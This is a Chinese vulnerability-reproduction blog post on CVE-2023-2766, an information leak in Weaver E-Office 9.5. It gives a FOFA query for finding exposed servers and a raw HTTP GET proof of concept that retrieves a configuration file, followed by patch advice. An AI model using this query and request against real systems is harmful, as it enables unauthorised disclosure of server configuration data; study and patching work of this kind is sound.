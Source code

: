 # 原创
：  漏洞复现--泛微E-Office信息泄露(CVE-2023-2766)

# 漏洞复现--泛微E-Office信息泄露(CVE-2023-2766)

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

泛微E-Office是一款企业级的全流程办公自动化软件，它包括协同办公、文档管理、知识管理、工作流管理等多个模块，涵盖了企业日常工作中的各个环节。该产品configfile<br/> 存在信息泄露

### 二：漏洞影响版本

E-Office 9.5

### 三：网络空间测绘查询

fofa:<br/> `app="泛微-EOffice"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d94f8d180d2c0716aebbd86e208a30be.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/25d015c83dd370f702fb2a509c884bcb.jpeg"/><br/> POC:

```
GET /building/backmgr/urlpage/mobileurl/configfile/jx2_config.ini HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip

```

### 五：批量检测

### 六：修复建议

目前厂商已发布升级补丁以修复漏洞<br/> https://www.weaver.com.cn/
